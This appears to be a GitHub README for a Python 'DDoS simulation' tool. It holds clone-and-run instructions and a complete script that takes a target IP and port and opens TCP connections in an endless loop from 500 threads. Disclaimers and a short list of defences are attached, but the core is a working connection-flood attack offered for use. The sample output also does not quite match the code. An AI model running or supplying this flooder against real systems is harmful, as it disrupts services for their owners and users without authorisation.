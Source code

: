 # **DDoS Attack Simulation Tool** ⚠️  

*A Python-based educational tool demonstrating how DDoS attacks work using socket flooding (FOR LEARNING PURPOSES ONLY).*  

---

## **🔍 Overview**  

This script simulates a basic DDoS (Distributed Denial of Service) attack by flooding a target IP with multiple TCP connections. Created **strictly for cybersecurity education** to understand attack patterns and defense mechanisms.  

⚠️ **Warning:** Use only on authorized systems or local test environments. Unauthorized use is illegal.  

---

## **🛠️ Features**  
✔ Multi-threaded connection flooding  
✔ Real-time attack counter  
✔ Simple CLI interface  
✔ Educational value for network security  

---

## **🚀 Getting Started**  

### **Prerequisites**  
- Python 3.x  
- `socket` and `threading` modules (built-in)  

### **Installation**  
```bash
git clone https://github.com/winalkumarr123/Ddos-Tool.git
cd Ddos-Tool
```

### **Usage**  
Run the script:  
```bash
python Ddos.py
```  
Then enter:  
1. Target IP (e.g., `127.0.0.1` for local testing)  
2. Target port (e.g., `80` for HTTP)  

**Output Example:**  
```
number of connections sent: 1
number of connections sent: 2
...
```

---

## **📜 Ethical Disclaimer**  
❗ **This tool is for:**  
- Cybersecurity students learning about DDoS mitigation  
- Penetration testing (authorized environments only)  

❗ **Never use for:**  
- Unauthorized attacks  
- Harming networks/systems  
- Illegal activities  

Violations may result in **legal consequences**.  

---

## **🛡️ Defense Recommendations**  
To protect against such attacks:  
- Use rate limiting (e.g., `iptables`)  
- Configure firewalls to drop suspicious traffic  
- Deploy DDoS protection services (Cloudflare, AWS Shield)  

---

## **📝 Code Breakdown**  
```python
import socket
from threading import Thread

target = input("Enter target IP: ")  # Target server IP
port = int(input("Enter target port: "))  # e.g., 80 for HTTP
attack_num = 0

def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))  # Floods target with connections
        global attack_num
        attack_num += 1
        print(f"Connections sent: {attack_num}")

# Launch 500 threads to amplify attack
for _ in range(500):
    Thread(target=attack).start()
```

---

## **📬 Contact**  
For educational inquiries:  
🔗 [LinkedIn](https://www.linkedin.com/in/vimal-kumar-r-aa8265184?lipi=urn%3Ali%3Apage%3Ad_flagship3_profile_view_base_contact_details%3BuHvqf2JGRwS1wdpubCkHuQ%3D%3D) | 📧 vimalkumarr738@gmail.com  

